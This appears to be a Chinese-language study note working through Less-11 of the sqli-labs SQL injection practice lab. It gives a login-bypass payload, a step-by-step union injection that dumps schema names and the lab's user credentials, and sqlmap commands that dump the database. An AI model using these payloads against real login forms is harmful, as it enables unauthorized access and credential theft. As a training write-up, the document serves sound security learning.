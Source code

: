```yaml
---
title: less11
url: https://www.yuque.com/u29002979/ep2zrx/ivhbtp8cseozy69t
---
```


![image.png](../../assets/ivhbtp8cseozy69t/1668574343567-9abdcb38-18af-4797-98c2-2073d26d484d.png)
发现是一个登录页面
`1'`单引号闭合
使用万能密码。
username输入`admin' or 1-- +`成功登录. <a name="VnzYl"></a>

# 联合查询

<a name="tFdi3"></a>

## 查询字段数

`1' order by 3-- +`

> 登录后页面报错Unknown column '3' in 'order clause'

`1' order by 2-- +`
没有提示错误，说明有2个字段；

<a name="CeMCs"></a>

## 判断回显点

`1' union select 1,2 #`
显示1，2。判断出页面有两个显示位；

<a name="ECWHT"></a>

## 爆数据库名

`1' union select 1,group_concat(schema_name) from information_schema.schemata #`

> Your Login name:1
> Your Password:information\_schema,challenges,dvwa\_com,mysql,performance\_schema,security,sql,sys

<a name="FvGKE"></a>

## 爆数据表名

`1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #`

> Your Login name:1
> Your Password:emails,referers,uagents,users

<a name="cr7p8"></a>

## 爆字段名

`1' union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' #`

> Your Login name:1
> Your Password:id,username,password

<a name="yyein"></a>

## 爆字段内容

`1' union select 1,(select group_concat(username,'^',password)from users) #`

>
> Your Login name:1
> Your Password:Dumb^Dumb,
> Angelina^I-kill-you,
> Dummy^p@ssword,
> secure^crappy,
> stupid^stupidity,
> superman^genious,
> batman^mob!le,
> admin^admin,
> admin1^admin1,
> admin2^admin2,
> admin3^admin3,
> dhakkan^dumbo,
> admin4^admin4

<a name="wCZkA"></a>

# sqlmap

```bash
启动sqlmap探测注入点
sqlmap -u ip --data="uname=admin&passwd=admin" --batch
爆破当前数据库名
sqlmap -u ip --data="uname=admin&passwd=admin" --batch --current-db
爆破数据表
sqlmap -u ip --data="uname=admin&passwd=admin" --batch -D security --tables
最后脱库
sqlmap -u ip --data="uname=admin&passwd=admin" --batch -D security -T users --dump
```

<a name="ngc5z"></a>

## 或者将抓包内容保存到.txt文件中

```bash
sqlmap.py -r 1.txt -p 'uname' --batch
爆破数据库
sqlmap.py -r 1.txt -p 'uname' --batch --current-db
爆破表
sqlmap.py -r 1.txt -p 'uname' --batch -D security --tables
脱库
sqlmap.py -r 1.txt -p 'uname' --batch -D security --dump
```
